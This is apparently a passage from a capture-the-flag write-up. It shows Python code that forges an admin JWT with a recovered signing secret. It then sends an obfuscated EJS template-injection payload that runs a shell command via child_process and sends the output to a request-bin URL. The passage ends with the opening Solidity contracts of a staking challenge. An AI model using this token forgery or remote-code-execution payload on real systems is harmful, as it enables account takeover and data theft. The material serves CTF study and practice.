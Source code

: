 ```python
password = (a.stdout).split()[0]
print(password)

guest_jwt = jwt.decode(guest_token, password, algorithms=["HS256"])
admin_origin = guest_jwt.copy()
admin_origin["id"] = "admin"
admin_jwt = jwt.encode(admin_origin, password, algorithm="HS256")
s.cookies.clear()
s.cookies.set("token", admin_jwt)

payload = "settings[view options][escapeFunction]=(() => {import(`chi${''}ld_p${''}rocess`).then((xx) => {% raw %}{{var a = xx[`ex${''}ecSync`]('cat flag.txt');import(`https`).then((yy) => {yy.get(`[your_request_bin_url]?a=${a}`);});}}{% endraw %});})&settings[view options][client]=1&settings[view options][debug]=1"
rce = s.get("http://localhost:3000/user-details/admin1?" + payload)
```

# blockchain

## Staker
`0x5bc2910452970e6313b16baecadf3672d6825c542bfa135aef128afaea43e3ceb4652d253bd28ae9ff1b222a0f70d63d32851ddc686d920bf85a775cd64c2a2f89eaa3a350f0ab4e5f75eabb67675d8f`

### Analysis
```javascript
# Token
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.25;

import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract Token is ERC20 {
    constructor() ERC20("Token", "TKN") {
        _mint(msg.sender, 186401 * 1e18);
    }
}
```
186401\*1e18 tokens available for msg.sender

```javascript
# Setup.sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.25;

import {Token} from "./Token.sol";
import {LpToken} from "./LpToken.sol";
import {StakingManager} from "./StakingManager.sol";

contract Setup {
    StakingManager public stakingManager;
    Token public token;

    constructor() payable {
        token = new Token();
        stakingManager = new StakingManager(address(token));

        token.transfer(address(stakingManager), 86400 * 1e18);

        token.approve(address(stakingManager), 100000 * 1e18);
        stakingManager.stake(100000 * 1e18);
    }

```
